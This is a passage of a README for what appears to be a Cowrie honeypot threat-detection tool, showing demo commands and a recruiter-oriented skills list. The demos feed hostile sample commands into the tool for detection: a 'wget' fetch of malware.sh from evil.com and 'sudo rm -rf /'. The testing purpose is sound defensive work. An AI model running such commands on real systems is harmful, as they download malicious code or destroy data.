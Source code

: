 
## 🏆 **DEMONSTRATION SCENARIOS**

### **Scenario 1: Live Threat Detection**
```bash
# Terminal 1: Start real-time monitor
python realtime_monitor.py log/cowrie.json

# Terminal 2: Simulate attack
echo '{"eventid":"cowrie.command.input","input":"wget http://evil.com/malware.sh"}' >> log/cowrie.json

# Result: Instant threat detection, risk scoring, automated response
```

### **Scenario 2: AI-Powered Analysis**
```bash
# Run advanced analysis
python parse_logs.py log/cowrie.json --advanced

# Output:
# 🤖 ML-based attack classification
# 🌍 Threat intelligence enrichment  
# 🧠 AI-generated insights
# 📊 Interactive visualizations
```

### **Scenario 3: API Integration**
```bash
# Start API server
python api_server.py

# Test threat analysis endpoint
curl -X POST -H "Authorization: Bearer demo_token_12345" \
     -d '{"command":"sudo rm -rf /","session_id":"test","src_ip":"1.2.3.4"}' \
     http://localhost:8080/api/threats/analyze
```

---

## 💼 **CAREER IMPACT - WHY RECRUITERS WILL BE IMPRESSED**

### **Technical Excellence Demonstrated:**
✅ **Advanced Programming**: Python, async/await, OOP, design patterns  
✅ **AI/ML Expertise**: Scikit-learn, feature engineering, model training  
✅ **System Architecture**: Microservices, real-time processing, APIs  
✅ **Database Design**: Relational modeling, indexing, caching  
✅ **Web Technologies**: WebSockets, REST APIs, interactive dashboards  
✅ **DevOps Skills**: Docker, container orchestration, deployment  

### **Industry Knowledge Showcased:**
✅ **Cybersecurity**: Threat intelligence, attack patterns, incident response  
✅ **Data Science**: Statistical analysis, anomaly detection, visualization  
✅ **Software Engineering**: Testing, documentation, error handling  
✅ **Product Thinking**: User experience, scalability, maintainability  
